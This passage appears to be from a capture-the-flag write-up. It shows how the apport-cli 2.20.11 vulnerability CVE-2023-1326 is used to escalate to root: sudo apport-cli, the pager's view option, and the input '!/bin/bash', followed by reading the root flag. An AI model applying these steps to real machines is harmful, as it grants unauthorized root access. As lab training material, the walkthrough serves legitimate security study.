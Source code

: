 Lets check the version of apport-cli:

```shell
/usr/bin/apport-cli --version
```

```shell
2.20.11
```

Doing some research, we found out that this version is vulnerable to CVE-2023-1326.

We can exploit this to escalate privileges following these steps:

```shell
# Get the PID of systemd (in our case 1030)
ps -ux
```

```shell
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
logan       1030  0.0  0.2  19040  9616 ?        Ss   17:01   0:00 /lib/systemd/systemd --user
logan       1036  0.0  0.0 169184  3260 ?        S    17:01   0:00 (sd-pam)
logan       1332  0.0  0.1  14064  5968 ?        S    17:03   0:00 sshd: logan@pts/1
logan       1333  0.0  0.1   8272  5096 pts/1    Ss+  17:03   0:00 -bash
logan       1445  0.0  0.1  14064  6064 ?        S    17:07   0:00 sshd: logan@pts/0
logan       1446  1.0  0.1   8272  5056 pts/0    Ss   17:07   0:00 -bash
logan       1454  0.0  0.0   9080  3496 pts/0    R+   17:07   0:00 ps -ux
```

Once we got the PID, run the following commands:

```shell
# Run apport-cli with the PID 1030 of systemd
sudo /usr/bin/apport-cli -f -P 1030

# Then press the correct keys in this order

# *** It seems you have modified the contents of "/etc/systemd/journald.conf".  Would you like to add the contents of it to your bug report?
# What would you like to do? Your options are:
Press Y

# *** It seems you have modified the contents of "/etc/systemd/resolved.conf".  Would you like to add the contents of it to your bug report?
# What would you like to do? Your options are:
Press Y

# *** Send problem report to the developers?

# After the problem report has been sent, please fill out the form in the
automatically opened web browser.
# What would you like to do? Your options are:
Press V

# Please choose (S/V/K/I/C):
V

# Now enter the following when the ":" symbol appears
!/bin/bash

# Press enter once we wrote it, it will give us a shell as root
```

### Root Flag
Now we can get the root.txt flag:

```shell
cat /root/root.txt
```